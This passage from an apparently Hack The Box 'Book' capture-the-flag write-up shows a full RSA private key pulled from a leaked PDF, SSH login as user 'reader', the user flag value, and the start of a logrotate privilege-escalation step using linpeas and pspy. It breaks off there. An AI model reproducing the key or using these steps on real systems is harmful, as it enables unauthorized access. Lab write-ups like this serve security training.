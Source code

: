     root@nidus:/git/htb/book# pdf2txt.py key.pdf -o reader-id_rsa
    root@nidus:/git/htb/book# cat book-id_rsa
      -----BEGIN RSA PRIVATE KEY-----
      MIIEpQIBAAKCAQEA2JJQsccK6fE05OWbVGOuKZdf0FyicoUrrm821nHygmLgWSpJ
      G8m6UNZyRGj77eeYGe/7YIQYPATNLSOpQIue3knhDiEsfR99rMg7FRnVCpiHPpJ0
      WxtCK0VlQUwxZ6953D16uxlRH8LXeI6BNAIjF0Z7zgkzRhTYJpKs6M80NdjUCl/0
      ePV8RKoYVWuVRb4nFG1Es0bOj29lu64yWd/j3xWXHgpaJciHKxeNlr8x6NgbPv4s
      7WaZQ4cjd+yzpOCJw9J91Vi33gv6+KCIzr+TEfzI82+hLW1UGx/13fh20cZXA6PK
      75I5d5Holg7ME40BU06Eq0E3EOY6whCPlzndVwIDAQABAoIBAQCs+kh7hihAbIi7
      3mxvPeKok6BSsvqJD7aw72FUbNSusbzRWwXjrP8ke/Pukg/OmDETXmtgToFwxsD+
      McKIrDvq/gVEnNiE47ckXxVZqDVR7jvvjVhkQGRcXWQfgHThhPWHJI+3iuQRwzUI
      tIGcAaz3dTODgDO04Qc33+U9WeowqpOaqg9rWn00vgzOIjDgeGnbzr9ERdiuX6WJ
      jhPHFI7usIxmgX8Q2/nx3LSUNeZ2vHK5PMxiyJSQLiCbTBI/DurhMelbFX50/owz
      7Qd2hMSr7qJVdfCQjkmE3x/L37YQEnQph6lcPzvVGOEGQzkuu4ljFkYz6sZ8GMx6
      GZYD7sW5AoGBAO89fhOZC8osdYwOAISAk1vjmW9ZSPLYsmTmk3A7jOwke0o8/4FL
      E2vk2W5a9R6N5bEb9yvSt378snyrZGWpaIOWJADu+9xpZScZZ9imHHZiPlSNbc8/
      ciqzwDZfSg5QLoe8CV/7sL2nKBRYBQVL6D8SBRPTIR+J/wHRtKt5PkxjAoGBAOe+
      SRM/Abh5xub6zThrkIRnFgcYEf5CmVJX9IgPnwgWPHGcwUjKEH5pwpei6Sv8et7l
      skGl3dh4M/2Tgl/gYPwUKI4ori5OMRWykGANbLAt+Diz9mA3FQIi26ickgD2fv+V
      o5GVjWTOlfEj74k8hC6GjzWHna0pSlBEiAEF6Xt9AoGAZCDjdIZYhdxHsj9l/g7m
      Hc5LOGww+NqzB0HtsUprN6YpJ7AR6+YlEcItMl/FOW2AFbkzoNbHT9GpTj5ZfacC
      hBhBp1ZeeShvWobqjKUxQmbp2W975wKR4MdsihUlpInwf4S2k8J+fVHJl4IjT80u
      Pb9n+p0hvtZ9sSA4so/DACsCgYEA1y1ERO6X9mZ8XTQ7IUwfIBFnzqZ27pOAMYkh
      sMRwcd3TudpHTgLxVa91076cqw8AN78nyPTuDHVwMN+qisOYyfcdwQHc2XoY8YCf
      tdBBP0Uv2dafya7bfuRG+USH/QTj3wVen2sxoox/hSxM2iyqv1iJ2LZXndVc/zLi
      5bBLnzECgYEAlLiYGzP92qdmlKLLWS7nPM0YzhbN9q0qC3ztk/+1v8pjj162pnlW
      y1K/LbqIV3C01ruxVBOV7ivUYrRkxR/u5QbS3WxOnK0FYjlS7UUAc4r0zMfWT9TN
      nkeaf9obYKsrORVuKKVNFzrWeXcVx+oG3NisSABIprhDfKUSbHzLIR4=
      -----END RSA PRIVATE KEY-----

    There are still some formating error on the BEGIN and END part which we can edit manually.


5. Change the permission to reader-id_rsa and login to grab user.txt

    root@nidus:/git/htb/book# chmod 400 reader-id_rsa
    root@nidus:/git/htb/book# ssh reader@book.htb -i reader-id_rsa
    reader@book:~$ id
      uid=1000(reader) gid=1000(reader) groups=1000(reader)
    reader@book:~$ cat user.txt
      51c1d4b5197fa30e3e5d37f8778f95bc


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Enumerating the box with linpeas and we find very sparse information. We are able to write to the local logfiles making
   a logrotate privesc possible, however for this to work logrotate must run as root. We can watch if this service is running using
   pspy64.
